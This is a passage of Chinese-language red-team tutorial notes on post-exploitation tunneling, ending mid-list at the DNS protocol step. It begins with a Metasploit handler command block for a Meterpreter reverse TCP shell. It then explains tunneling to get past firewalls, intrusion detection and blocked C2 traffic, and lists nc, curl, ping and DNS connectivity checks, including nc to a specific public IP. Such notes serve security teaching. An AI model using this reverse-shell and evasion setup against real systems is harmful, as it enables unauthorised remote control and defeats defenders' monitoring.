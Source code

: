```powershell
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 5555
exploit
3.靶机运行 frp 即可
```

### 隧道(主要用在域里面，因为域控可以设置策略)

> 在数据通信被拦截的情况下利用隧道技术封装改变通信协议进行绕过拦截 CS、MSF 无法上线，数据传输不稳定无回显，出口数据被监控，网络通信存在问题等，不仅解决网络通信问题，还能解决防火墙过滤问题、入侵检测系统（红蓝对抗）

#### 作用

* 防护墙过滤问题
* 网络连接通信问题
* 数据回链封装问题

#### 知识点

> 在实际的网络中，通常会通过各种边界设备、软/硬件防火墙甚至入侵检测系统来检查对外连接情况， 如果发现异样，就会对通信进行阻断。那么什么是隧道呢？这里的隧道，就是一种绕过端口屏蔽的 通信方式。防火墙两端的数据包通过防火墙所允许的数据包类型或端口进行封装，然后穿过防火墙， 与对方进行通信。当封装的数据包到达目的地时，将数据包还原，并将还原后的数据包发送到相应服务器上。

#### 常用的隧道技术有三种

1. 网络层：IPV6隧道、ICMP隧道
2. 传输层：TCP隧道、UDP隧道、常规端口转发
3. 应用层：SSH隧道、HTTP/S隧道、DNS隧道

#### 应用条件

已经获得了一些控制权，但是服务端无法被控制，不能完整的展示

#### 案例一 网络传输应用层检测连通性（如果想用tcp隧道，那么就先要检测tcp协议是否支持）

1.TCP协议

瑞士军刀（nc）

```shell
nc 139.186.198.33 port
```

2.HTTP协议

用“curl”工具，执行 curl 命令。如果远程主机开启了相应的端口，且内网可连接外网的 话，就会输出相应的端口信息

```shell
curl <ip地址：端口>
```

3.ICMP协议

ping

4.DNS协议
